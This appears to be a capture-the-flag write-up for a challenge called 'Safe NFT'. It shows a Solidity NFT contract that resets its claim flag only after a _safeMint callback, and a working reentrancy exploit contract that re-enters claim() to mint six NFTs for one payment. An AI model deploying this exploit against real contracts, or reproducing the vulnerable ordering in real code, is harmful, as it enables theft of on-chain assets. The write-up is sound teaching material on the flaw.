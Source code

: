 # Safe NFT

## Challenge

We get one contract for a NFT:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/extensions/ERC721Enumerable.sol";

contract safeNFT is ERC721Enumerable {
    uint256 price;
    mapping(address=>bool) public canClaim;

    constructor(string memory tokenName, string memory tokenSymbol,uint256 _price) ERC721(tokenName, tokenSymbol) {
        price = _price; //price = 0.01 ETH
    }

    function buyNFT() external payable {
        require(price==msg.value,"INVALID_VALUE");
        canClaim[msg.sender] = true;
    }

    function claim() external {
        require(canClaim[msg.sender],"CANT_MINT");
        _safeMint(msg.sender, totalSupply()); 
        canClaim[msg.sender] = false;
    }
}
```

The goal is to claim multiple NFTs for the price of one

## Solution

Here we have a very simple reentrancy attack. THe _safeMint functionality calls back to our contract, which in the end lets us call back multiple times before the canClaim gets reset. We can write a simple exploit contract to exploit the vulnerability:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "./Chal.sol";

contract exploiter {

    int claims;
    safeNFT NFT_contract;

    constructor(address target_addr)
    {
        claims = 0; 
        NFT_contract = safeNFT(target_addr);
    }

    function attack() payable public
    {
        require(msg.value == 0.01 ether, "You need to send 0.01 ether man :("); // 10000000000000000 Wei

        NFT_contract.buyNFT{value: 0.01 ether}();
        NFT_contract.claim();
    }

    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns (bytes4)
    {
        if (claims < 5)
        {
            claims += 1;
            NFT_contract.claim();
        }

        return this.onERC721Received.selector;
    }
}
```

Passing the contract address to this contract in the constructor and then running this contract, we can get 6 NFTs for the price of 1.

